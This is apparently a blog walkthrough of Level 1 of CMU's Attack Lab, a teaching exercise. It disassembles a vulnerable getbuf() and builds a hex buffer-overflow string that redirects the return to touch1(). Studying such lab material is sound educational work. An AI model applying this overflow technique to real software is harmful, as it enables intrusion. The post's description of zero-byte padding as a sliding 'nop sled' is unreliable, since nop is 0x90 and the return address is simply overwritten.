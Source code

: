 ```yaml
---
layout: post
title: Walkthrough of CMU's Attack Lab (8/28/20)
---
```

This post walks through CMU's 'Attack' lab, which involves exploiting the stack space of vulnerable binaries.

## Post Outline
- [Level 1](#level-1)
- [Resources](#resources)

We go over Level 1 in this post.

## Level 1
From the assignment handout, we are told that there is a function `test()` that calls `getbuf()`. 
We want `getbuf()` to call `touch1()` in this first phase.
Let's start by disassembling the function `getbuf()`.

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp // allocate 0x28 bytes for getbuf
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets> // call Gets() function to get input
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

If we think conceptually about what is going on during this call, `%rsp` is currently inside of the memory space allocated for `test()`.
At the end of the space allocated for `test()` is the return address that `%rsp` will return to after calling `getbuf()`.
When we call `getbuf()`, we allocate more space on the stack just below `test()`.
Here is a visualization:
![_config.yml]({{ site.baseurl }}/images/CMUAttackLab/p1.jpeg)

From the disassembled code, we note that 0x28 (40) bytes are allocated.
This means that we can create a nop sled of 40 bytes (each nop is 1 byte) and then include the address of `touch1()`.
When `getbuf()` is called, `%rsp` will slide down the nop sled, encounter the address of `touch1()` and execute `touch1()`.

By disassembling `touch1()`, we can see that it's address is: `00000000004017c0 <touch1>:`.

Therefore, our resulting exploited code is the following (`touch1()`'s address is reversed b/c the machine is little endian).
```
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
c0 17 40 00 00
```

## Resources
- [Assignment Handout](http://csapp.cs.cmu.edu/3e/attacklab.pdf)